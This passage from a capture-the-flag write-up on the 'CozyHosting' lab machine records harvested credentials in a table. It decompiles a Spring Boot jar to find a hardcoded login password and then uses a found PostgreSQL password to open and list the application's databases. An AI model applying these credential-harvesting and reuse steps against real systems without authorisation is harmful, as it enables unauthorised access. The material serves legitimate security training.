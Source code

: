 | Username | email | Password     | Hash | Usage      |
| -------- | ----- | ------------ | ---- | ---------- |
| josh         |       |              |      |            |
| **postgres** |       | **Vg&nvzAQ7XxR** |      | PostgreSQL |

We can go further and decompile this java application using `jd-gui`:

![[assets/source.png]]

```java
package BOOT-INF.classes.htb.cloudhosting.scheduled;

import java.io.IOException;
import java.util.concurrent.TimeUnit;
import org.springframework.scheduling.annotation.Scheduled;
import org.springframework.stereotype.Component;

@Component
public class FakeUser {
  @Scheduled(timeUnit = TimeUnit.MINUTES, fixedDelay = 5L)
  public void login() throws IOException {
    System.out.println("Logging in user ...");
    Runtime.getRuntime().exec(new String[] { "curl", "localhost:8080/login", "--request", "POST", "--header", "Content-Type: application/x-www-form-urlencoded", "--data-raw", "username=kanderson&password=MRdEQuv6~6P9", "-v" });
  }
}
```

We can add this new credential :

| Username  | email | Password     | Hash | Usage                |
| --------- | ----- | ------------ | ---- | -------------------- |
| josh         |       |              |      |            |
| postgres  |       | Vg&nvzAQ7XxR |      | PostgreSQL           |
| **kanderson** |       | **MRdEQuv6~6P9** |      | web app on port 8080 | 

Since we have a credential to connect to the database, let's explore it, using the `postgres`  credential :

```shell
psql -h localhost -U postgres -W
```

Start by listing databases :

```text
\list

List of databases
Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
|          |          |             |             | postgres=CTc/postgres
template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
|          |          |             |             | postgres=CTc/postgres
(4 rows)
```
